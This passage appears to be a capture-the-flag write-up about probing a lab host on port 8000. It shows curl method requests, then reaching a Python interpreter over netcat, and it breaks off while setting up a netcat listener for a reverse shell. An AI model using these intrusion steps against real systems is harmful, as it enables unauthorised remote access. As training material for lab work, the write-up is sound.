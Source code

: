Let’s dig deeper into error-triggering HTTP requests.

You can issue requests with common HTTP methods like GET, POST, OPTIONS, PUT, and DELETE to test how the server handles these and to potentially generate errors that give more information.

Run the following to generate various types of requests:

```
curl -X OPTIONS http://10.10.10.251:8000
curl -X PUT http://10.10.10.251:8000
curl -X DELETE http://10.10.10.251:8000
curl -X POST http://10.10.10.251:8000 -d "testdata=test"
```

If the server is vulnerable or misconfigured, these requests might return different errors, providing hints about the code execution or revealing useful endpoints.

But this didn't work either because I got the same response! Stuck?


## netcat

Netcat (nc) could definitely be the "basic connection" that the webpage hint referred to! Netcat is a powerful tool often used to set up basic connections and transfer data.

Use Netcat to Connect to Port 8000: Simply try using Netcat to establish a connection to the target's port:
```
nc 10.10.10.251 8000
```

Okay, so we're able to connect via netcat and run basic python commands :)

![](assets/2024-10-09-18-11-20.png)

I tried a few other things and it turned out that we are in the root directory
:)

```
import os
print(os.getcwd())

/root (the answer)
```

If you have confirmed that you can execute Python code, setting up a reverse shell is a good next step. This will provide you with a more interactive shell environment, allowing you to run commands as if you were logged into the system.
Steps to Set Up a Python Reverse Shell:

Prepare Your Listener: First, set up a listener on your local machine using Netcat. Open a terminal and run:

```
nc -lvnp 4444
```

Run the Python Reverse Shell Command: Use the following Python code to establish a reverse shell back to your machine. Replace <YOUR_IP> with your actual IP address where your listener is running:
